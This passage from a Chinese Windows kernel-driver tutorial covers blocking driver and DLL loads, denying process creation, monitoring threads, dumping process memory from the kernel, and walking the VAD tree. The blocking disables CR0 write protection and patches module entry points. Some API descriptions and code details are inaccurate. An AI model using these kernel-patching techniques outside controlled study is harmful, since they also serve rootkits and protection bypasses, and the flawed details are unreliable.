    PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLoadImageNotifyRoutine);
    DbgPrint("驱动加载完成...");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



通过上方代码的学习，相信读者已经学会了如何监视系统内加载驱动与DLL功能，接着我们给上方的代码加上判断，只需在上方代码的基础上进行一定的改进，但需要注意`MyLoadImageNotifyRoutine`回调函数中的`ModuleStyle`参数，该参数用于判断加载模块的类型，如果返回值为零则表示加载SYS，如果返回非零则表示加载的是DLL模块。
```c
VOID UnicodeToChar(PUNICODE_STRING dst, char *src)
{
    ANSI_STRING string;
    RtlUnicodeStringToAnsiString(&string, dst, TRUE);
    strcpy(src, string.Buffer);
    RtlFreeAnsiString(&string);
}

VOID MyLoadImageNotifyRoutine(PUNICODE_STRING FullImageName,HANDLE ModuleStyle,PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;
    char szFullImageName[256] = { 0 };

  // MmIsAddress 验证地址可用性
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
    // ModuleStyle为零表示加载sys非零表示加载DLL
        if (ModuleStyle == 0)
        {
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            UnicodeToChar(FullImageName, szFullImageName);
            if (strstr(_strlwr(szFullImageName), "hook.sys"))
            {
                DbgPrint("准备拦截SYS内核模块：%s", _strlwr(szFullImageName));
            }
        }
    }
}
```

输出效果图如下所示：



如上方代码中所示，`MyLoadImageNotifyRoutine`函数只能接收全局模块加载动作，但是此模式无法判断到底是哪个进程加载的`hook.sys`驱动，因为回调函数本就很底层了，到了一定的深度之后就无法判断到底是谁主动引发的行为，一切回调行为都会变成系统的行为，而某些驱动过滤软件，通常会使用特征扫描等方式来判断驱动是否是我们所需；

当判断特定模块是我们所要拦截的驱动时，则下一步就要进行驱动的屏蔽工作，对于驱动屏蔽来说最直接的办法就是在程序的入口位置写入`Mov eax,c0000022h;ret`这两条汇编指令从而让模块无法被执行，此时模块虽然被加载了但却无法执行功能，本质上来说已经起到了拒绝加载的效果；

通过`ImageInfo->ImageBase` 来获取被加载驱动程序`hook.sys`的映像基址，然后找到NT头的`OptionalHeader`节点，该节点里面就是被加载驱动入口的地址，通过汇编在驱动头部写入`ret`返回指令，即可实现屏蔽加载特定驱动文件，这段代码完整实现如下所示；
```c
#include <ntddk.h>
#include <intrin.h>
#include <ntimage.h>

PVOID GetDriverEntryByImageBase(PVOID ImageBase)
{
    PIMAGE_DOS_HEADER pDOSHeader;
    PIMAGE_NT_HEADERS64 pNTHeader;
    PVOID pEntryPoint;
    pDOSHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNTHeader = (PIMAGE_NT_HEADERS64)((ULONG64)ImageBase + pDOSHeader->e_lfanew);
    pEntryPoint = (PVOID)((ULONG64)ImageBase + pNTHeader->OptionalHeader.AddressOfEntryPoint);
    return pEntryPoint;
}

VOID UnicodeToChar(PUNICODE_STRING dst, char *src)
{
    ANSI_STRING string;
    RtlUnicodeStringToAnsiString(&string, dst, TRUE);
    strcpy(src, string.Buffer);
    RtlFreeAnsiString(&string);
}

// 使用开关写保护需要在C/C++优化中启用内部函数

// 关闭写保护
KIRQL WPOFFx64()
{
    KIRQL irql = KeRaiseIrqlToDpcLevel();
    UINT64 cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    _disable();
    __writecr0(cr0);
    return irql;
}

// 开启写保护
void WPONx64(KIRQL irql)
{
    UINT64 cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

BOOLEAN DenyLoadDriver(PVOID DriverEntry)
{
    UCHAR fuck[] = "\xB8\x22\x00\x00\xC0\xC3";
    KIRQL kirql;
    /* 在模块开头写入以下汇编指令
    Mov eax,c0000022h
    ret
    */

    if (DriverEntry == NULL)
  {
    return FALSE;
  }

    kirql = WPOFFx64();
    memcpy(DriverEntry, fuck,sizeof(fuck) / sizeof(fuck[0]));
    WPONx64(kirql);
    return TRUE;
}

VOID MyLoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ModuleStyle, PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;
    char szFullImageName[256] = { 0 };

  // MmIsAddress 验证地址可用性
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
    // ModuleStyle为零表示加载sys非零表示加载DLL
        if (ModuleStyle == 0)
        {
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            UnicodeToChar(FullImageName, szFullImageName);
            if (strstr(_strlwr(szFullImageName), "hook.sys"))
            {
                DbgPrint("拦截SYS内核模块：%s", szFullImageName);
                DenyLoadDriver(pDrvEntry);
            }
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLoadImageNotifyRoutine);
    DbgPrint("驱动卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLoadImageNotifyRoutine);
    DbgPrint("驱动加载完成...");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
而对于屏蔽DLL模块加载同样如此，仅仅只是在判断`ModuleStyle`参数时将非零作为过滤条件即可，要实现该功能只需要在上面的代码上稍微修改一下即可；
```c
char *UnicodeToLongString(PUNICODE_STRING uString)
{
    ANSI_STRING asStr;
    char *Buffer = NULL;;
    RtlUnicodeStringToAnsiString(&asStr, uString, TRUE);
    Buffer = ExAllocatePoolWithTag(NonPagedPool, uString->MaximumLength * sizeof(wchar_t), 0);
    if (Buffer == NULL)
  {
        return NULL;
  }

    RtlCopyMemory(Buffer, asStr.Buffer, asStr.Length);
    return Buffer;
}

VOID MyLoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ModuleStyle, PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;
    char *PareString = NULL;

    if (MmIsAddressValid(FullImageName))
    {
    // 非零则监控DLL加载
        if (ModuleStyle != 0)
        {
            PareString = UnicodeToLongString(FullImageName);
            if (PareString != NULL)
            {
                if (strstr(PareString, "hook.dll"))
                {
                    pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
                    if (pDrvEntry != NULL)
                        DenyLoadDriver(pDrvEntry);
                }
            }
        }
    }
}
```

我们以屏蔽SYS内核模块为例，当驱动文件`WinDDK.sys`被加载后，尝试加载`hook.sys`会提示拒绝访问，说明我们的驱动保护生效了；



关键的内核进程操作已经分享，该功能作用使用非常广泛，例如杀软的主动防御系统，游戏的保护系统等都会用到这些东西，以QQ电脑管家为例，默认进程在运行后都会挂钩进程保护钩子用于监控系统内进程与线程操作；



### 4.4 内核监控进程与线程创建

当你需要在Windows操作系统中监控进程的启动和退出时，可以使用`PsSetCreateProcessNotifyRoutineEx`函数来创建一个`MyCreateProcessNotifyEx`回调函数，该回调函数将在每个进程的创建和退出时被调用。

PsSetCreateProcessNotifyRoutineEx 用于在系统启动后向内核注册一个回调函数，以监视新进程的创建和退出，其函数原型如下：
```c
NTSTATUS PsSetCreateProcessNotifyRoutineEx(
  PCREATE_PROCESS_NOTIFY_ROUTINE_EX NotifyRoutine,
  BOOLEAN                             Remove
);
```
其中，参数`NotifyRoutine`是一个指向回调函数的指针，该函数将在新进程创建或退出时被调用。参数`Remove`是一个布尔值，用于指定是否从内核中删除之前注册的回调函数。如果要删除之前注册的回调函数，则将此参数设置为TRUE。如果要注册一个新的回调函数，则将此参数设置为FALSE。

如上`PCREATE_PROCESS_NOTIFY_ROUTINE_EX`用于接收一个自定义回调，该回调函数的参数传递需要定义为如下所示的样子；
```c
VOID CreateProcessNotifyRoutineEx(
  PEPROCESS           Process,
  HANDLE              ProcessId,
  PPS_CREATE_NOTIFY_INFO CreateInfo
);
```
其中，参数`Process`是一个指向新创建进程的`EPROCESS`结构的指针。参数`ProcessId`是新进程的PID（进程ID）。参数`CreateInfo`是一个指向一个`PS_CREATE_NOTIFY_INFO`结构的指针，该结构包含了有关新进程的详细信息。如果新进程是由系统启动的，CreateInfo将为空。

回调函数应该在执行完后尽快返回，以避免对系统性能的影响。同时，回调函数不应该调用任何可能导致死锁或系统崩溃的函数。

对于进程的创建与退出，则可通过`MyCreateProcessNotifyEx`自定义函数的`PPS_CREATE_NOTIFY_INFO`字段进行判断，如果`PPS_CREATE_NOTIFY_INFO`不等于NULL则说明该进程是被创建了，反之则说明进程是退出了，有了这些基础知识那么实现监视进程加载将变得很容易，如下案例所示；
```c
#include <ntddk.h>

NTKERNELAPI PCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);

PCHAR GetProcessNameByProcessId(HANDLE ProcessId)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PEPROCESS ProcessObj = NULL;
    PCHAR string = NULL;
    st = PsLookupProcessByProcessId(ProcessId, &ProcessObj);
    if (NT_SUCCESS(st))
    {
        string = PsGetProcessImageFileName(ProcessObj);
        ObfDereferenceObject(ProcessObj);
    }
    return string;
}

VOID MyCreateProcessNotifyEx(PEPROCESS Process, HANDLE ProcessId, PPS_CREATE_NOTIFY_INFO CreateInfo)
{
    char ProcName[16] = { 0 };
    if (CreateInfo != NULL)
    {
        strcpy(ProcName, PsGetProcessImageFileName(Process));
        DbgPrint("父进程ID: %ld  --->父进程名: %s --->进程名: %s---->进程路径：%wZ", CreateInfo->ParentProcessId,
            GetProcessNameByProcessId(CreateInfo->ParentProcessId),
            PsGetProcessImageFileName(Process),CreateInfo->ImageFileName);
    }
    else
    {
        strcpy(ProcName, PsGetProcessImageFileName(Process));
        DbgPrint("进程[ %s ] 离开了，程序被关闭了",ProcName);
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)MyCreateProcessNotifyEx, TRUE);
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;
    status = PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)MyCreateProcessNotifyEx, FALSE);
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：




那么如何进行进程监控呢？

进程监控的思路很简单，只需要在如上`MyCreateProcessNotifyEx()`这个自定义回调函数中进行改进即可，首先通过`PsGetProcessImageFileName`即将进程的PID转换为进程名，然后就可以通过`_stricmp`对比该进程是否为我们所需要的，如果发现是`calc.exe`等特定进程名，则可以将`CreateInfo->CreationStatus`中的参数修改为`STATUS_UNSUCCESSFUL`这意味着对象的创建过程未成功完成，从而实现拒绝进行执行的目的；
```c
#include <ntddk.h>

NTKERNELAPI PCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);

PCHAR GetProcessNameByProcessId(HANDLE ProcessId)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PEPROCESS ProcessObj = NULL;
    PCHAR string = NULL;
    st = PsLookupProcessByProcessId(ProcessId, &ProcessObj);
    if (NT_SUCCESS(st))
    {
        string = PsGetProcessImageFileName(ProcessObj);
        ObfDereferenceObject(ProcessObj);
    }
    return string;
}

VOID MyCreateProcessNotifyEx(PEPROCESS Process, HANDLE ProcessId, PPS_CREATE_NOTIFY_INFO CreateInfo)
{
    char ProcName[16] = { 0 };
    if (CreateInfo != NULL)
    {
        strcpy(ProcName, PsGetProcessImageFileName(Process));
        if (!_stricmp(ProcName, "calc.exe"))
        {
            CreateInfo->CreationStatus = STATUS_UNSUCCESSFUL;
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)MyCreateProcessNotifyEx, TRUE);
    DbgPrint(("驱动卸载成功"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;
    status = PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)MyCreateProcessNotifyEx, FALSE);
    Driver->DriverUnload = UnDriver;
    DbgPrint("驱动加载成功!");
    return STATUS_SUCCESS;
}
```
将上方代码编译，当我们加载驱动程序以后，再次打开`C:\Windows\System32\calc.exe` 计算器进程则提示无法打开，我们的驱动已经成功的拦截了本次的请求。



与进程检测类似，如果要检测线程创建则只需要通过`PsSetCreateThreadNotifyRoutine`创建线程回调即可，PsSetCreateThreadNotifyRoutine 函数的原型如下：
```c
NTKERNELAPI
VOID
PsSetCreateThreadNotifyRoutine(
  _Inout_ PCREATE_THREAD_NOTIFY_ROUTINE NotifyRoutine,
  _In_ BOOLEAN                           Remove
);
```

PsSetCreateThreadNotifyRoutine 它允许注册一个回调函数，以便在新的线程被创建时被调用。该函数有两个参数：

 - 第一个参数：是一个指向回调函数的指针，这个回调函数将在新的线程被创建时被调用。
 - 第二个参数：是一个布尔值，表示是否将此回调函数添加到一个已有的回调列表中。如果此参数为TRUE，则将该回调函数添加到列表中，如果为FALSE，则将替换掉已有的回调函数。

当一个新的线程被创建时，操作系统会调用所有已注册的回调函数，并将新线程的`ThreadID`和进程ID作为参数传递给回调函数。这些参数可以用来识别新线程所属的进程以及新线程本身的标识符。

对于`PCREATE_THREAD_NOTIFY_ROUTINE`来说，它指向一个回调函数，用于通知进程中新线程的创建。该函数指针的定义如下：
```c
typedef VOID (*PCREATE_THREAD_NOTIFY_ROUTINE) (
  _In_ HANDLE ProcessId,
  _In_ HANDLE ThreadId,
  _In_ BOOLEAN Create
);
```
回调函数的参数说明如下：

 - ProcessId：新线程所属进程的进程ID。
 - ThreadId：新线程的线程ID。
 - Create：布尔值，指示新线程是创建还是销毁。如果为TRUE，则表示新线程已创建；如果为FALSE，则表示新线程已销毁。

在 PsSetCreateThreadNotifyRoutine 函数中注册的回调函数应该符合这个函数指针的定义，以便在新线程被创建或销毁时被调用。

而当调用结束后，用户需要通过`PsRemoveCreateThreadNotifyRoutine`来删除已注册的回调函数，目前该函数只需要一个参数，只需要传入注册时的函数指针即可；
```c
NTKERNELAPI
VOID
PsRemoveCreateThreadNotifyRoutine(
  _Inout_ PCREATE_THREAD_NOTIFY_ROUTINE NotifyRoutine
);
```
通过上述知识点的总结，相信你也可以很容易的编写处线程检测相关代码片段，具体代码如下：
```c
#include <ntddk.h>

NTKERNELAPI PCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);

VOID MyCreateThreadNotify(HANDLE ProcessId, HANDLE ThreadId, BOOLEAN Create)
{
    PEPROCESS eprocess = NULL;
  // 通过此函数拿到程序的EPROCESS结构
    PsLookupProcessByProcessId(ProcessId, &eprocess);
    if (Create)
  {
        DbgPrint("线程TID: %1d --> 所属进程名: %s --> 进程PID: %1d \n", ThreadId, PsGetProcessImageFileName(eprocess), PsGetProcessId(eprocess));
  }
    else
  {
        DbgPrint("%s 线程已退出...", ThreadId);
  }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveCreateThreadNotifyRoutine(MyCreateThreadNotify);
    DbgPrint(("驱动卸载成功"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;
    status = PsSetCreateThreadNotifyRoutine(MyCreateThreadNotify);
    DbgPrint("PsSetCreateThreadNotifyRoutine: %x", status);
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果图如下所示：



### 4.5 内核中实现进程数据转储

多数ARK反内核工具中都存在驱动级别的内存转存功能，该功能可以将应用层中运行进程的内存镜像转存到特定目录下，内存转存功能在应对加壳程序的分析尤为重要，当进程在内存中解码后，我们可以很容易的将内存镜像导出，从而更好的对样本进行分析，当然某些加密壳可能无效但绝大多数情况下是可以被转存的。



在上一篇文章`《内核R3与R0内存映射拷贝》`介绍了一种方式`SafeCopyMemory_R3_to_R0`可以将应用层进程的内存空间映射到内核中，要实现内存转储功能我们还是需要使用这个映射函数，只是需要在此函数上增加一些功能而已。

在实现转存之前，需要得到两个东西，进程内`模块基地址`以及`模块长度`这两个参数是必不可少的，至于内核中如何得到指定进程的模块数据，在很早之前的文章`《内核中枚举进线程与模块》`中有详细的参考方法，这里就在此基础之上实现一个简单的进程模块遍历功能。

如下代码中使用的就是`枚举`进程`PEB`结构得到更多参数的具体实现，如果不懂得可以研读`《内核通过PEB得到进程参数》`这篇文章此处不再赘述。
```c
#include <ntddk.h>
#include <windef.h>

// 声明结构体
typedef struct _KAPC_STATE
{
    LIST_ENTRY ApcListHead[2];
    PKPROCESS Process;
    UCHAR KernelApcInProgress;
    UCHAR KernelApcPending;
    UCHAR UserApcPending;
} KAPC_STATE, *PKAPC_STATE;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY64    InLoadOrderLinks;
    LIST_ENTRY64    InMemoryOrderLinks;
    LIST_ENTRY64    InInitializationOrderLinks;
    PVOID           DllBase;
    PVOID           EntryPoint;
    ULONG           SizeOfImage;
    UNICODE_STRING  FullDllName;
    UNICODE_STRING  BaseDllName;
    ULONG           Flags;
    USHORT          LoadCount;
    USHORT          TlsIndex;
    PVOID           SectionPointer;
    ULONG           CheckSum;
    PVOID           LoadedImports;
    PVOID           EntryPointActivationContext;
    PVOID           PatchInformation;
    LIST_ENTRY64    ForwarderLinks;
    LIST_ENTRY64    ServiceTagLinks;
    LIST_ENTRY64    StaticLinks;
    PVOID           ContextInformation;
    ULONG64         OriginalBase;
    LARGE_INTEGER   LoadTime;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

// 偏移地址
ULONG64 LdrInPebOffset = 0x018;     //peb.ldr
ULONG64 ModListInPebOffset = 0x010; //peb.ldr.InLoadOrderModuleList

// 声明API
NTKERNELAPI UCHAR* PsGetProcessImageFileName(IN PEPROCESS Process);
NTKERNELAPI PPEB PsGetProcessPeb(PEPROCESS Process);
NTKERNELAPI HANDLE PsGetProcessInheritedFromUniqueProcessId(IN PEPROCESS Process);

// 根据进程ID返回进程EPROCESS，失败返回NULL
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
        return eprocess;
    else
        return NULL;
}

// 枚举指定进程的模块
// By: LyShark.com
VOID EnumModule(PEPROCESS Process)
{
    SIZE_T Peb = 0;
    SIZE_T Ldr = 0;
    PLIST_ENTRY ModListHead = 0;
    PLIST_ENTRY Module = 0;
    ANSI_STRING AnsiString;
    KAPC_STATE ks;
    
    // EPROCESS地址无效则退出
    if (!MmIsAddressValid(Process))
        return;
    
    // 获取PEB地址
    Peb = (SIZE_T)PsGetProcessPeb(Process);
    
    // PEB地址无效则退出
    if (!Peb)
        return;
    
    // 依附进程
    KeStackAttachProcess(Process, &ks);
    __try
    {
        // 获得LDR地址
        Ldr = Peb + (SIZE_T)LdrInPebOffset;
        // 测试是否可读，不可读则抛出异常退出
        ProbeForRead((CONST PVOID)Ldr, 8, 8);
        // 获得链表头
        ModListHead = (PLIST_ENTRY)(*(PULONG64)Ldr + ModListInPebOffset);
        // 再次测试可读性
        ProbeForRead((CONST PVOID)ModListHead, 8, 8);
        // 获得第一个模块的信息
        Module = ModListHead->Flink;
        
        while (ModListHead != Module)
        {
            //打印信息：基址、大小、DLL路径
            DbgPrint("模块基址 = %p | 大小 = %ld | 模块名 = %wZ | 完整路径= %wZ \n",
                (PVOID)(((PLDR_DATA_TABLE_ENTRY)Module)->DllBase),
                (ULONG)(((PLDR_DATA_TABLE_ENTRY)Module)->SizeOfImage),
                &(((PLDR_DATA_TABLE_ENTRY)Module)->BaseDllName),
                &(((PLDR_DATA_TABLE_ENTRY)Module)->FullDllName)
                );
            Module = Module->Flink;
            
            // 测试下一个模块信息的可读性
            ProbeForRead((CONST PVOID)Module, 80, 8);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){ ; }
    
    // 取消依附进程
    KeUnstackDetachProcess(&ks);
}

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{

}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    ULONG i = 0;
    PEPROCESS eproc = NULL;
    for (i = 4; i<100000000; i = i + 4)
    {
        eproc = LookupProcess((HANDLE)i);
        if (eproc != NULL)
        {
            ObDereferenceObject(eproc);
            if (strstr(PsGetProcessImageFileName(eproc), "lyshark.exe") != NULL)
            {
                EnumModule(eproc);
            }
        }
    }

    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

如上我们指定获取应用层`lyshark.exe`进程的模块信息，并可得到以下输出效果:



上篇文章中的代码就不再啰嗦了，这里只给出内存转存的核心代码`ProcessDumps`的实现流程：

ProcessDumps 代码的功能是将一个进程的内存空间转储（Dump）到磁盘上的一个文件中，该函数接收三个参数，并返回内存转存的状态；

 - 参数 pEprocess：要转储的进程的PEPROCESS结构体指针。
 - 参数 nBase：要转储的内存空间的基地址。
 - 参数 nSize：要转储的内存空间的大小。
 - 函数返回值：转储操作的状态，如果成功则返回 STATUS_SUCCESS，否则返回一个表示错误原因的 NTSTATUS 值。

该函数的实现也非常简单，通过`SafeCopyMemory_R3_to_R0`函数将应用层中的进程内存映射到内核层中的`pBuffer`堆中，当映射完成后再通过`ZwWriteFile`函数将这段内存写出到磁盘中完成转存，函数`ProcessDumps`的具体流程如下：

 - 1.检查参数 pEprocess 和 nSize 是否为 NULL 或为 0，如果是，则直接返回 STATUS_UNSUCCESSFUL，表示操作失败。
 - 2.分配一个大小为 nSize 的缓冲区，用于存储要转储的内存空间。
 - 3.如果要转储的进程不是当前进程，则将当前线程切换到要转储的进程的上下文中，以便能够访问要转储的进程的内存空间。
 - 4.调用函数 SafeCopyMemory_R3_to_R0，将要转储的内存空间中的数据复制到缓冲区中。
 - 5.如果线程被切换到了要转储的进程的上下文中，则将线程切换回当前进程的上下文中。
 - 6.调用ZwCreateFile创建一个表示输出文件的句柄。
 - 7.通过ZwWriteFile将缓冲区中的数据写入到输出文件中。
 - 8.最后ZwClose关闭输出文件句柄并释放缓冲区内存。

很简单只是利用了`SafeCopyMemory_R3_to_R0`将进程内存读取到缓冲区内，并将缓冲区写出到C盘目录下，默认将转存数据保存为`lyshark_dumps.exe`；
```c
NTSTATUS ProcessDumps(PEPROCESS pEprocess, ULONG_PTR nBase, ULONG nSize)
{
    BOOLEAN bAttach = FALSE;
    KAPC_STATE ks = { 0 };
    PVOID pBuffer = NULL;
    NTSTATUS status = STATUS_UNSUCCESSFUL;

    if (nSize == 0 || pEprocess == NULL)
    {
        return status;
    }

    pBuffer = ExAllocatePoolWithTag(PagedPool, nSize, 'lysh');
    if (!pBuffer)
    {
        return status;
    }

    memset(pBuffer, 0, nSize);

    if (pEprocess != IoGetCurrentProcess())
    {
        KeStackAttachProcess(pEprocess, &ks);
        bAttach = TRUE;
    }

    status = SafeCopyMemory_R3_to_R0(nBase, (ULONG_PTR)pBuffer, nSize);

    if (bAttach)
    {
        KeUnstackDetachProcess(&ks);
        bAttach = FALSE;
    }

    OBJECT_ATTRIBUTES object;
    IO_STATUS_BLOCK io;
    HANDLE hFile;
    UNICODE_STRING log;

    // 导出文件名称
    RtlInitUnicodeString(&log, L"\\??\\C:\\lyshark_dumps.exe");
    InitializeObjectAttributes(&object, &log, OBJ_CASE_INSENSITIVE, NULL, NULL);

    status = ZwCreateFile(&hFile,
        GENERIC_WRITE,
        &object,
        &io,
        NULL,
        FILE_ATTRIBUTE_NORMAL,
        FILE_SHARE_WRITE,
        FILE_OPEN_IF,
        FILE_SYNCHRONOUS_IO_NONALERT,
        NULL,
        0);

    if (!NT_SUCCESS(status))
    {
        DbgPrint("打开文件错误 \n");
        return STATUS_SUCCESS;
    }

    ZwWriteFile(hFile, NULL, NULL, NULL, &io, pBuffer, nSize, NULL, NULL);
    DbgPrint("写出字节数: %d \n", io.Information);
    DbgPrint("[*] LyShark.exe 已转存");
    ZwClose(hFile);

    if (pBuffer)
    {
        ExFreePoolWithTag(pBuffer, 'lysh');
        pBuffer = NULL;
    }

    return status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS ntStatus;
    PEPROCESS pCurProcess = NULL;

    __try
    {
        ntStatus = PsLookupProcessByProcessId((HANDLE)272, &pCurProcess);
        if (NT_SUCCESS(ntStatus))
        {
            // 设置基地址以及长度
            ntStatus = ProcessDumps(pCurProcess, 0x140000000, 1024);
            ObDereferenceObject(pCurProcess);
        }
    }
    __except (1)
    {
        ntStatus = GetExceptionCode();
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

转存后效果如下图所示：



至于导出的进程无法运行只是没有修复而已(后期会讲)，可以打开看看是没错的。



### 4.6 内核遍历进程VAD结构体

在上一篇文章`《内核中实现Dump进程转储》`中我们实现了ARK工具的转存功能，本篇文章继续以内存为出发点介绍`VAD`结构，该结构的全程是`Virtual Address Descriptor`即`虚拟地址描述符`，VAD是一个`AVL`自`平衡二叉树`，树的每一个节点代表一段虚拟地址空间。程序中的代码段，数据段，堆段都会各种占用一个或多个`VAD`节点，由一个`MMVAD`结构完整描述。

VAD结构的遍历效果如下:



VAD是`Windows`操作系统中用于管理进程虚拟地址空间的数据结构之一，全称为`Virtual Address Descriptor`，即虚拟地址描述符。VAD是一个基于`AVL`自平衡二叉树的数据结构，它用于维护一段连续的虚拟地址空间。每个VAD节点都描述了一段连续的虚拟地址空间，并包含了该空间的属性信息，如该空间是否可读、可写、可执行等等。

在Windows操作系统中，每个进程都有自己的虚拟地址空间，用于存储该进程的代码、数据和堆栈等信息。这个虚拟地址空间被分为许多段，每个段都由一个或多个VAD节点表示。这些VAD节点构成了一个树形结构，树的根节点表示整个虚拟地址空间，而每个节点表示一段连续的虚拟地址空间。

每个VAD节点都是由一个`MMVAD`结构体来表示，MMVAD结构体中包含了该节点的各种属性信息，如虚拟地址的起始地址、结束地址、访问权限、保护属性等等。此外，MMVAD结构体还包含了指向下一个和上一个VAD节点的指针，以及指向该节点子节点的指针。这些指针使得VAD节点可以组成一个树形结构，并且可以方便地进行遍历和访问。

总之，VAD结构是Windows操作系统中管理进程虚拟地址空间的重要数据结构之一，它通过构建一个树形结构来管理进程的虚拟地址空间，并提供了丰富的属性信息，使得操作系统可以对虚拟地址空间进行有效的管理和保护。

**那么这个VAD结构体在哪里呢？**

每一个进程都有自己单独的`VAD`结构树，这个结构通常在`EPROCESS`结构里面里面，在内核调试模式下使用`dt _EPROCESS`可得到如下信息。

EPROCESS 结构体是用于表示操作系统中的一个进程的数据结构，其中包含了许多与该进程相关的信息，包括了该进程的虚拟地址空间描述符树（VAD 结构树）。

在内核调试模式下，使用 `dt _EPROCESS` 命令可以显示出该结构体的定义和各个字段的信息。其中与 `VAD` 结构树相关的字段为 `VadRoot` 和 `VadHint`。

 - VadRoot 字段：表示该进程的虚拟地址空间描述符树的根节点，类型为 PMMVAD_SHORT。
 - VadHint 字段：表示该进程上一次访问的虚拟地址空间描述符节点，类型为 PMMVAD.

VadRoot 字段指向一个 `MM_AVL_TABLE` 结构体，该结构体包含了一个平衡二叉树，用于存储该进程的虚拟地址空间描述符节点。每个节点都包含了一个虚拟地址空间的起始地址、结束地址，以及一些其他描述符信息，如该区域是否是可读、可写、可执行等。

VadHint 字段则指向该进程最近访问的虚拟地址空间描述符节点，这个字段可以被用来优化访问虚拟地址空间描述符树的性能。
```c
lyshark.com 1: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x500 Vm               : _MMSUPPORT_FULL
   +0x640 MmProcessLinks   : _LIST_ENTRY
   +0x650 ModifiedPageCount : Uint4B
   +0x654 ExitStatus       : Int4B
   +0x658 VadRoot          : _RTL_AVL_TREE
   +0x660 VadHint          : Ptr64 Void
   +0x668 VadCount         : Uint8B
   +0x670 VadPhysicalPages : Uint8B
   +0x678 VadPhysicalPagesLimit : Uint8B
```
可以看到在本系统中VAD的偏移是`+0x658`紧跟其后的还有`vadCount`的计数等。



**VAD结构是如何被添加的？**

通常情况下系统调用`VirtualAllocate`等申请一段堆内存时，则会在VAD树上增加一个结点`_MMVAD`结构体，需要说明的是栈并不受VAD的管理。由系统直接分配空间，并把地址记录在了TEB中。

在 Windows 操作系统中，申请堆内存时，系统调用 `VirtualAlloc` 或 `HeapAlloc` 等函数会向操作系统请求一段连续的虚拟地址空间，然后内核会分配一些物理内存页并映射到该虚拟地址空间上，从而完成了内存的分配和管理。

在这个过程中，内核会在当前进程的 `VAD` 树中创建一个新的 `MMVAD` 结构体，用于描述这个新分配的虚拟地址空间的起始地址、大小、保护属性等信息。同时，内核会将这个 `MMVAD` 结构体插入到当前进程的 `VAD` 树中，并通过平衡二叉树的方式来维护这个树的结构，使得树的查询和插入操作都能够以 `O(log n)` 的时间复杂度完成。

